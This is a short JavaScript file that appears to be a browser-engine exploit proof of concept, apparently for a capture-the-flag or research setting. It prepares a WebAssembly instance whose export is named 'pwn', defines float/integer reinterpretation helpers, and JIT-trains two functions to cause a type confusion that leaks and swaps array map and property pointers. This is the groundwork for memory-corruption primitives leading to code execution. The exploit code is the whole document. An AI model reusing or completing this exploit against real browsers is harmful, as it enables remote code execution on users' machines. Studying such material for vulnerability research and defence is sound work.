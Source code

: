 ### script
```javascript
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var pwn = wasm_instance.exports.main;

var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function hex(val){
    return "0x"+val.toString(16)
}

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}


function f(o){
    o.a *= 2
    o.c *= 3
    let t = o.b
    return ftoi(t)
}

function g(o, val){
    o.a *= 2
    o.c *= 3

    o.b = itof(val)
}

x = {a:5.5, b:1.1, c:2.2, d:3.3}

for (var i = 0; i < 0x1000; ++i){
    f(x)
    f(x)
    f(x)

    g(x, 1n)
    g(x, 1n)
    g(x, 1n)
}

y = {a:5, b:[6.9], c:2}

float_elem = f(y) >> 32n
float_prop = f(y) & 0xffffffffn

y2 = {a:5, b:[{}], c:2}
g(y2, (float_elem << 32n) + float_prop)
```